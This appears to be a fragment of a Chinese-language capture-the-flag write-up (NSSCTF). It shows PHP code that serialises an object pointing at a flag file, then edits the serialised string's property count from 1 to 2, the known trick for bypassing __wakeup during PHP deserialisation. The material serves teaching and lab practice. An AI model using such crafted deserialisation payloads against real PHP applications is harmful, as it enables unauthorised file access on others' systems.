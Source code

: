 ```
        //flag is in fllllllag.php
    }
}

$w = new X("fllllllag.php");  // 注意这里是字符串，需要传入参数
$serialized = serialize($w);
echo $serialized;

?>
```

```
O:1:"X":1:{s:1:"x";s:13:"fllllllag.php";}改为
O:1:"X":2:{s:1:"x";s:13:"fllllllag.php";}
```

![image-20250808081824584](./NSSCTF-4.assets/image-20250808081824584.png)

## `$_REQUEST['x']` 解释
